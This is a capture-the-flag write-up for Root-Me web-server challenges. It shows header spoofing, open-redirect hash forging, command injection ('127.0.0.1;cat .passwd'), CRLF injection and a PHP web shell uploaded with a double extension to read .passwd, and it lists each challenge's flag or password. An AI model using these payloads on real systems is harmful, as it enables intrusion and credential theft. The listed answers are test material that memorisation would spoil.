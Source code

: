 ## Web Server root-me

### HTML - Source code

F12:

```
Je crois que c'est vraiment trop simple là !
It's really too easy !
password : nZ^&@q5&sjJHev0
```

### HTTP - IP restriction bypass

Add Header `X-Forwarded-For: 127.0.0.1`, `X-Forwarded-For: 192.168.1.1`, ...

```
Well done, the validation password is: Ip_$po0Fing
```

### HTTP - Open redirect

Open Facebook: http://challenge01.root-me.org/web-serveur/ch52/?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134

Open Twitter: http://challenge01.root-me.org/web-serveur/ch52/?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0

Decode md5: a023cfbf5f1c39bdf8407f28b60cd134 -> https://facebook.com, be8b09f7f1f66235a9c91986952483f0 -> https://twitter.com

-> Redirect to: http://challenge01.root-me.org/web-serveur/ch52/?url=https://www.youtube.com&h=d245406cb6c9f36be9064c92c34e12e1

```
Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5
```

### HTTP - User-agent

Change Header `User-Agent: admin`

```
Welcome master!<br/>Password: rr$Li9%L34qd1AAe27
```

### Weak password

Payload username=admin&password=admin  -> password is `admin`

### PHP - Command injection

Payload `127.0.0.1;cat .passwd` -> S3rv1ceP1n9Sup3rS3cure

### Backup file

`curl http://challenge01.root-me.org/web-serveur/ch11/index.php~`

```
$username="ch11";
$password="OCCY9AcNm1tj";
...
```

### HTTP - Directory indexing

F12 -> we can see: `<!-- include("admin/pass.html") -->` in source code.

Access admin/pass.html -> back to admin -> access backup/admin.txt -> Password / Mot de passe : LINUX

### HTTP - Headers

We can see in Response Header `Header-RootMe-Admin: none` -> Change to `Header-RootMe-Admin: true`.

```
You dit it ! You can validate the challenge with the password HeadersMayBeUseful
```

### HTTP - POST

POST -> Change score in Request Body to 1000000 -> Re-POST

```
Flag to validate the challenge: H7tp_h4s_N0_s3Cr37S_F0r_y0U 
```

### HTTP - Improper redirect

The application redirect from index.php to login.php if you don't login.

Let's try: `curl challenge01.root-me.org/web-serveur/ch32/index.php`

```
The flag is : ExecutionAfterRedirectIsBad
```

### HTTP - Verb tampering

Try change method:

`curl -X POST challenge01.root-me.org/web-serveur/ch8/`

`curl -X PUT challenge01.root-me.org/web-serveur/ch8/`

```
<h1>Mot de passe / password : a23e$dme96d3saez$$prap
```

### Install files

F12 -> we can see `<!--  /web-serveur/ch6/phpbb -->` in source code.

Try access `http://challenge01.root-me.org/web-serveur/ch6/phpbb/install/install.php`:

```
Le mot de passe pour valider est : karambar
```

### CRLF

We can use the payload: `?username=admin authenticated.%0D%0Afoo&password=authenticated`

And get the response:

```
admin authenticated.
foo failed to authenticate.

Well done, you can validate challenge with this password : rFSP&G0p&5uAg1% 
```

### File upload - Double extensions

Create file `a.php.png` with following content and upload:

```php
<?php
$data = system($_GET["cmd"]);
echo $data;
?> 
```

Access to the file uploaded and add params on url `?cmd=ls`

```
a.php.png test.php.jpg test.php.png test.php.png 
```

Now we can use path traversal, let's try: `?cmd=ls ../../../ -a`

```
. .. ._init ._nginx.http-level.inc ._nginx.server-level.inc ._perms ._php-fpm.pool.inc .git .gitignore .passwd galerie index.php tmp tmp 
```

Finally, get password: `?cmd=cat ../../../.passwd`

```
Gg9LRz-hWSxqqUKd77-_q-6G8
```

### 

